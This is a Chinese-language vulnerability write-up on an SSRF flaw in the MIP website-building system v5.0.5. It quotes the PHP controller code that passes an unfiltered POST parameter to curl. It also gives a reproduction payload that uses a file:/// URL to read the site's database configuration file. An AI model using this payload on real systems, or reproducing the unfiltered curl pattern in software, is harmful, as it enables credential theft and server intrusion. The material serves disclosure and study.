 ```yaml
---
title: MIP建站系统 v5.0.5 SSRF漏洞
id: zhfly3021
---
```


# MIP建站系统 v5.0.5 SSRF漏洞

## 一、漏洞简介

## 二、漏洞影响

MIP建站系统 v5.0.5

## 三、复现过程

### 漏洞分析

进行简单的漏洞分析。
根据漏洞定位代码文件：app/setting/controller/ApiAdminDomainSettings.php
受影响代码：

```
public function urlPost(Request $request) {
        $postAddress = input('post.postAddress');
        if (!$postAddress) {
            return jsonError('请先去设置推送的接口');
        }
        $api = trim($postAddress);
        if (strpos($api,'type=realtime') !== false || strpos($api,'type=batch') !== false) {
            if (!config('siteInfo')['guanfanghaoStatus']) {
                return jsonError('检测到您未开启熊掌号，请开启后再推送');
            }
        }
        $url = input('post.url');
        $id = input('post.id');
        if (!$url) {
            return jsonError('没有检测到你推送的页面地址');
        }   
        $urls[] = $url;
        $ch = curl_init();
        $options =  array(
            CURLOPT_URL => $api,
            CURLOPT_POST => true,
            CURLOPT_RETURNTRANSFER => true,
            CURLOPT_POSTFIELDS => implode("\n", $urls),
            CURLOPT_HTTPHEADER => array('Content-Type: text/plain'),
        );
        curl_setopt_array($ch, $options);
        $result = curl_exec($ch); 
```

流程分析：

```
1、$ postAddress = input('post.postAddress');  
    //POST方法将$postAddress参数传入 `2、$api = trim($postAddress);

$options =  array(

CURLOPT_URL => $api,

CURLOPT_POST => true,

CURLOPT_RETURNTRANSFER => true,

CURLOPT_POSTFIELDS => implode("\n", $urls),

CURLOPT_HTTPHEADER => array(‘Content-Type: text/plain’),

);

curl_setopt_array($ch, $options);

//赋予$api参数，一直至$ch，未进行任何过滤

3、$result = curl_exec($ch);

//最后执行` 
```

### 漏洞复现

第一步，登陆该后台：

第二步，访问所受影响的代码文件：

```
http://www.0-sec.org/index.php？s=/setting/ApiAdminDomainSettings/urlPost；
POST方法进行请求，payload：  
postAddress=file:///C:\phpStudy\PHPTutorial\WWW\app\database.php&url=test&id=test 
```

![image](../img/812c40f8b507af04d42f6ad1cc85ef25.png)

## 参考链接

> https://xz.aliyun.com/t/7431